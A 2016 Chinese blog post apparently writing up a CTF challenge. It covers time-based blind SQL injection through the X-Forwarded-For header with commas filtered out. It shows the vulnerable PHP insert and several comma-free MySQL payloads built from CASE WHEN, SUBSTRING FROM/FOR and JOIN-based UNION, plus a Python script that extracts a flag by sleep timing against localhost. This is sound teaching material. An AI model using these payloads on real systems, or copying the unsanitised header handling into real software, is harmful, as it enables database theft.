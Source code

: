 ```yaml
---
title: mysql无逗号的注入技巧
url: 442.html
id: 442
categories:
  - hack_ctf
date: 2016-05-31 14:05:04
tags:
  - mysql
  - sql inject
---
```


明天就要考试了，然而我还在任性的写代码，真是该剁手，剁手啊...
<!--more-->
在一个 ctf比赛中，遇到这样一个注入题：

用户的ip可以用x-forwarded-for来伪造，然后把ip存储到数据库中去，对ip没有进行任何过滤，存在注入，但是有一个限制就是:  用‘,’逗号对ip地址进行分割，仅仅取逗号前面的第一部分内容。

然后：没有报错，没有回显，没有bool，只有延时。 送一个字，坑。。。。。

比赛的时候，就各种纠结，想着怎么绕过逗号，没想出来，比赛结束之后，仔细想想，终于搞明白了，做以下的总结。

据我猜测，后台代码可能是这样的：

[php]

<?php
error_reporting(0);

function getIp(){
    $ip = '';
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
      $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
}else{
     $ip = $_SERVER['REMOTE_ADDR'];
}
   $ip_arr = explode(',', $ip);
   return $ip_arr[0];
}

$host="localhost";
$user="root";
$pass="root";
$db="sangebaimao";

$connect = mysql_connect($host, $user, $pass) or die("Unable to connect");

mysql_select_db($db) or die("Unable to select database");

$ip = getIp();
echo 'your ip is :'.$ip;
$sql="insert into client_ip (ip) values ('$ip')";
mysql_query($sql);


?>
[/php]

写一下我的数据库的表结构：

[sql]
CREATE TABLE IF NOT EXISTS `client_ip` (
 `id` int(11) NOT NULL AUTO_INCREMENT,
 `ip` varchar(200) DEFAULT NULL,
 PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=gbk AUTO_INCREMENT=34 ;

CREATE TABLE IF NOT EXISTS `flag` (
 `flag` varchar(32) DEFAULT NULL
) ENGINE=MyISAM DEFAULT CHARSET=gbk;

INSERT INTO `flag` (`flag`) VALUES
('327a6c4304ad5938eaf0efb6cc3e53dc');
[/sql]

我的目标是注出来flag表中的flag字段。

分析一下：

因为没有报错，没有回显。所以只能是延时盲注。

测试一下：

[python]
x-forwarded-for: 10.20.0.12'+sleep(5) and '1'='1

[/python]

果真延时了，注入是存在的，但是怎么出数据呢？？？
没有逗号，所以if函数就不能用了。
那用另外一个：

[sql]
select case when (条件) then 代码1 else 代码 2 end  
[/sql]

把判断搞定了，但是怎么截取字符串呢？ 截取字符串函数貌似都需要逗号啊！！！

百度了好久，才知道可以这样玩：

[sql]
 select substring((select user()) from 1 for 1);  #第一种方法
 select substring((select user()) from -1);  #第二种方法
[/sql]

<img class="alignnone size-full wp-image-452" src="/uploads/2016/05/QQ截图20160531142402.png" alt="QQ截图20160531142402" width="602" height="251" />

截取字符串的函数有了，判断也有了。那就搞定了：

找到两种payload

[sql]

insert into client_ip (ip) values ('ip'+(select case when (substring((select user()) from 1 for 1)='e') then sleep(3) else 0 end));  --第一种payload

insert into client_ip (ip) values ('ip'+(select case when (substring((select  user()) from -1)='t') then sleep(3) else 0 end));  --第二种payload

[/sql]

接下来就是写个脚本跑了：

[python]
#coding:utf-8 
import requests 
maystr="0987654321qwertyuiopasdfghjklzxcvbnm"
url="http://127.0.0.1/sql/sql.php"
flag=""
for i in range(32):
   for str in maystr:
     headers={"x-forwarded-for":"127.0.0.1'+"+"(select case when (substring((select flag from flag ) from %d for 1 )='%s') then sleep(6) else sleep(0) end ) and '1'='1"%(i+1,str)}
 # proxy={"http":"http://127.0.0.1:8080"}
 # res=requests.get(url,headers=headers,timeout=3)
     try: 
         res=requests.get(url,headers=headers,timeout=4)
     except requests.exceptions.ReadTimeout,e:
         flag=flag+str
         print "flag:",flag
         break 
     except KeyboardInterrupt,e:
        exit(0)
     else:
        pass
 # rint i+1,str
[/python]

再增加一种绕过逗号的姿势，比如说：

[sql]

select id,ip from client_ip where 1>2  union select * from  ( (select user())a JOIN  (select version())b );  --这个用于union 查询的注入

[/sql]

<img class="alignnone size-full wp-image-455" src="/uploads/2016/05/QQ截图20160531151817.png" alt="QQ截图20160531151817" width="1035" height="166" />

&nbsp;